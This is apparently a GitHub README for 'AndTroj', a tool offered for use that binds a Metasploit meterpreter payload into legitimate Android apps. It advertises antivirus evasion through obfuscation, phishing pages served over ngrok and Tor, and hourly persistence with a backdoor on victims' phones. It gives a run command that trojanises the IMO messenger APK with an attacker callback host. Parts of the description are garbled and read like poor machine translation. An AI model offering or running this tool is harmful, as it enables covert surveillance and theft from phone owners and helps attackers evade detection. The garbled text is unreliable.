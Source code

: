 # AndTroj
Android Remote Access Trojan Binder

[![Unk9vvN](https://img.shields.io/badge/Unk9vvN-AndTroj-green.svg)](https://github.com/unk9vvn/AndTroj)
[![License MIT](https://img.shields.io/github/license/mashape/apistatus.svg)](https://github.com/unk9vvn/AndTroj/blob/master/LICENSE)
[![License MIT](https://img.shields.io/badge/telegram-channel-orange.svg)](https://t.me/Unk9vvN)
[![Follow on Twitter](https://img.shields.io/twitter/follow/espadrine.svg?label=Follow&style=social)](https://twitter.com/intent/follow?screen_name=unk9vvn)


A tool for integrating the Metasploit payload with Android's healthy programs and bypassing antivirus

# Features
- :heavy_check_mark: Using custom dns for harvester phishing webpages (Pro Ngrok License).
- :heavy_check_mark: Bypass 90% android Antivirus (Obfuscation Method).
- :heavy_check_mark: Bind metasploit meterpreter payload (android) Original APKs.
- :heavy_check_mark: Anti forensic Pihshing (using tor proxys for ngrok connections).
- :heavy_check_mark: Create automations persistence and bash backdoor for android phones.


# Screenshot

![alt text][logo]

[logo]: https://raw.githubusercontent.com/unk9vvn/AndTroj/master/menu.jpg "Logo Title Text 2"


This tool creates a tune-up of the Metasploit program, unlocks the program and integrates it into the footage. During this operation, the vagaries are mimicking the unpacking Android antivirus and compiling it after the completion of the integration. For the program's service, it's one-on-one and rearwards automatically after getting back access on Android OS Bargas And it runs to allow the service to be activated every hour, all of which is done automatically


# How to Run (Example)
```
# ┌──(unk9vvn㉿avi)-[~]
# └─$ sudo chmod +x AndTroj.sh;sudo ./AndTroj.sh example.ddns.net imo-messenger.apk https://play.google.com/store/apps/details?id=com.imo.android.imoim
```
Only support the Kali Linux operating system

Website: [Unk9vvN](https://unk9vvn.com)
